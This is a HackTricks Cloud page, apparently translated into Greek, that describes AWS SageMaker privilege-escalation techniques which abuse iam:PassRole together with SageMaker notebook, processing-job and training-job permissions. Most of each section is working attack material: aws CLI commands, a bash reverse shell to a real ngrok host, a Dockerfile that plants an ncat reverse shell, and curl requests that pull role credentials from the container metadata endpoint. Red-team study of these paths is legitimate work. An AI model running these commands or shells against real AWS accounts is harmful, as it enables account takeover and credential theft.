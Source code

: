 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Αρχίστε να δημιουργείτε ένα σημειωματάριο με τον IAM Ρόλο που έχει πρόσβαση σε αυτό:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Η απάντηση θα πρέπει να περιέχει ένα πεδίο `NotebookInstanceArn`, το οποίο θα περιέχει το ARN της νέας δημιουργημένης παρουσίας σημειωματάριου. Μπορούμε στη συνέχεια να χρησιμοποιήσουμε το API `create-presigned-notebook-instance-url` για να δημιουργήσουμε μια διεύθυνση URL που μπορούμε να χρησιμοποιήσουμε για να αποκτήσουμε πρόσβαση στην παρουσία σημειωματάριου μόλις είναι έτοιμη:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Πλοηγηθείτε στη διεύθυνση URL με τον περιηγητή και κάντε κλικ στο \`Open JupyterLab\` στην επάνω δεξιά γωνία, στη συνέχεια, κύλησε προς τα κάτω στην καρτέλα “Launcher” και κάτω από την ενότητα “Other”, κάντε κλικ στο κουμπί “Terminal”.

Τώρα είναι δυνατή η πρόσβαση στα διαπιστευτήρια μεταδεδομένων του IAM Role.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Εάν υπάρχουν Jupyter **notebooks που εκτελούνται ήδη** σε αυτό και μπορείτε να τα καταγράψετε με το `sagemaker:ListNotebookInstances` (ή να τα ανακαλύψετε με οποιονδήποτε άλλο τρόπο). Μπορείτε να **δημιουργήσετε μια διεύθυνση URL γι' αυτά, να τα αποκτήσετε πρόσβαση και να κλέψετε τα διαπιστευτήρια όπως υποδεικνύεται στην προηγούμενη τεχνική**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που είναι συνημμένος.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να κάνει **το sagemaker να εκτελέσει ένα processingjob** με έναν ρόλο sagemaker συνημμένο σε αυτό. Ο επιτιθέμενος μπορεί να υποδείξει τον ορισμό του κοντέινερ που θα εκτελείται σε μια **AWS managed ECS account instance**, και **να κλέψει τα διαπιστευτήρια του συνημμένου IAM ρόλου**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα είναι σε θέση να δημιουργήσει μια εργασία εκπαίδευσης, **τρέχοντας ένα αυθαίρετο κοντέινερ** πάνω σε αυτή με έναν **συνδεδεμένο ρόλο**. Επομένως, ο επιτιθέμενος θα είναι σε θέση να κλέψει τα διαπιστευτήρια του ρόλου.

{% hint style="warning" %}
Αυτό το σενάριο είναι πιο δύσκολο να εκμεταλλευτεί από το προηγούμενο επειδή χρειάζεται να δημιουργήσετε μια εικόνα Docker που θα στείλει το rev shell ή τα creds απευθείας στον επιτιθέμενο (δεν μπορείτε να υποδείξετε μια αρχική εντολή στη ρύθμιση της εργασίας εκπαίδευσης).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα (πιθανώς) μπορεί να δημιουργήσει μια **εργασία εκπαίδευσης υπερπαραμέτρων**, **τρέχοντας ένα αυθαίρετο κοντέινερ** σε αυτήν με έναν **συνδεδεμένο ρόλο**.\
_Δεν το έχω εκμεταλλευτεί λόγω έλλειψης χρόνου, αλλά φαίνεται παρόμοιο με τις προηγούμενες εκμεταλλεύσεις, μη διστάσετε να στείλετε μια PR με τις λεπτομέρειες εκμετάλλευσης._

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
